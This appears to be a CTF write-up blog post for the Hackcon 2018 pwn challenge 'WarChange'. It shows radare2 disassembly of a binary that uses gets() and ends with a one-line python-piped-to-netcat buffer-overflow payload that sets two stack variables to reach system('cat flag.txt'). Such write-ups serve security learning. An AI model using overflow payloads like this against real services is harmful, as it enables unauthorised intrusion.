 ```yaml
---
layout: post
title:  "[PWN]Hackcon'18 - WarChange"
author: Ringr0p
date:   2018-08-17
category: ctf
tags: [ ctf, challenge, programming, write-up ]
---
```

  - CTF NAME: [Hackcon 2018](https://hackcon.in/)
  - Category: PWN
  - Binary: [pwn2](http://ringr0p.github.io/binary/hackcon2018-vuln)
  - Difficulty: Easy

This challenge was the third challenge of the pwn category in the [Hackcon CTF 2018](https://hackcon.in/).

Let's open the binary:

```
Hola, So you again this time I am more secure. Lets see what u got

```

It request an input. And this input is managed with the vulnerable **gets()** function.
Using radare we can disassemble the main function:

```
|	    0x004006bc      488d45b0       lea rax, [local_50h]                                                                         
|           0x004006c0      4889c7         mov rdi, rax                                                                                 
|           0x004006c3      e888feffff     call sym.imp.gets           ;[3] ; char *gets(char *s)                                       
|           0x004006c8      488b05b10420.  mov rax, qword obj.stdin    ; [0x600b80:8]=0x7f7996732a00                                    
|           0x004006cf      4889c7         mov rdi, rax                                                                                 
|           0x004006d2      e889feffff     call sym.imp.fflush         ;[2] ; int fflush(FILE *stream)                                  
|           0x004006d7      817dfcefbead.  cmp dword [local_4h], 0xdeadbeef    ; [0xdeadbeef:4]=-1                                      
|       ,=< 0x004006de      740a           je 0x4006ea                 ;[4]                                                             
|       |   0x004006e0      bf01000000     mov edi, 1                                                                                   
|       |   0x004006e5      e886feffff     call sym.imp.exit           ;[5] ; void exit(int status)                                     
|       `-> 0x004006ea      817df8bebafe.  cmp dword [local_8h], 0xcafebabe    ; [0xcafebabe:4]=-1                                      
|       ,=< 0x004006f1      750f           jne 0x400702                ;[6]                                                             
|       |   0x004006f3      bfeb074000     mov edi, str.cat_flag.txt    ; 0x4007eb ; "cat flag.txt"                                     
|       |   0x004006f8      b800000000     mov eax, 0                                                                                   
|       |   0x004006fd      e82efeffff     call sym.imp.system         ;[7] ; int system(const char *string)                            
|       `-> 0x00400702      488b05670420.  mov rax, qword sym.stdout    ; loc.stdout ; [0x600b70:8]=0x7f7996733760 ; "`7s\x96y\x7f"     
|           0x00400709      4889c7         mov rdi, rax                                                                                 
|           0x0040070c      e84ffeffff     call sym.imp.fflush         ;[2] ; int fflush(FILE *stream)                                  
|           0x00400711      b800000000     mov eax, 0                                                                                   
|           0x00400716      c9             leave                                                                                        
\           0x00400717      c3             ret

```

Now the objective is clear: we have to conduct the flow of the program through the **system()** call. To do that, we have to overflow the local_50h buffer
and overwrite the two local variables at rbp-0x8 (local_8h) and at rbp-0x4 (local_4h) with, respectivly, 0xcafebabe and 0xdeadbeef (N.B in little endian ;) )

Then here is the exploit and the flag:

```code
python -c 'print ("a"*72 + '\xbe\xba\xfe\xca\xef\xbe\xad\xde")' | nc 139.59.30.165
```

![placeholder](https://ringr0p.github.io/images/hackcon2018-pwn2-flag.jpg)
